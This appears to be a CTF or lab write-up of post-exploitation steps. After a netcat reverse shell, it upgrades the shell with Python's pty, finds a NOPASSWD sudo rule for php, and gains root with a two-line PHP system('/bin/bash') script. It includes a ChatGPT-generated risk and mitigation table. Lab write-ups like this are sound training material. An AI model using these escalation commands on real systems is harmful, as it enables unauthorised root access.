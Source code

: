 
After establishing our reverse shell with netcat from metasploit, we need to cement our foothold. 

Upgrade our shell to one that supports TTY

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command fails as the system doesn't have python2 so we execute the command below

```shell-session
which python3
```

we have Python3 avaliable and from there our netcat session has escalated

```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 

![[Pasted image 20241007215316.png]]

we can now run commands like sudo -l to determine permissions
![[Pasted image 20241007220720.png]]

Running these permissions through ChatGPT we can get a more human readable threat assessment.

| **Item**                       | **Details**                                                        |
|---------------------------------|--------------------------------------------------------------------|
| **Command**                     | `sudo /usr/bin/php`                                                |
| **User**                        | `www-data`                                                         |
| **Privileges**                  | Can run **PHP** as **any user** without needing a password (`NOPASSWD`) |

### Security Risks

| **Risk**                 | **Description**                                                                                                        |
| ------------------------ | ---------------------------------------------------------------------------------------------------------------------- |
| **Full Root Access**     | PHP can execute system commands (e.g., `system()`, `exec()`), allowing full root control.                              |
| **Privilege Escalation** | Attackers can: <ul><li>Read/modify sensitive files (e.g., `/etc/shadow`).</li><li>Open a root shell via PHP.</li></ul> |
| **Ease of Exploitation** | No password is required to run PHP scripts as root, simplifying exploitation.                                          |
| **Web Exploits**         | If `www-data` is tied to a web server, vulnerable web apps can be used to escalate privileges to root.                 |

### Exploit Example

| **PHP Script**                 | **Effect**                                  |
|--------------------------------|---------------------------------------------|
| ```php <?php system("/bin/bash"); ?> ``` | Spawns a **root shell** when run via `sudo /usr/bin/php /path/to/script.php`. |

### Mitigation

| **Recommendation**              | **Action**                                                         |
|---------------------------------|--------------------------------------------------------------------|
| **Remove NOPASSWD**             | Require a password for `sudo` or restrict specific PHP commands.   |
| **Monitor www-data**            | Track activity, especially sudo actions.                           |
| **Harden Web Applications**     | Ensure no remote code execution vulnerabilities in web apps.       |

From this info we can quickly execute the simple 2 line script below

```shell script
echo '<?php system("/bin/bash"); ?>' > /tmp/root_shell.php
sudo /usr/bin/php /tmp/root_shell.php
```

![[Pasted image 20241007221231.png]]

We have now established ourselves as the root user and capture the final flag.

![[Pasted image 20241007222806.png]]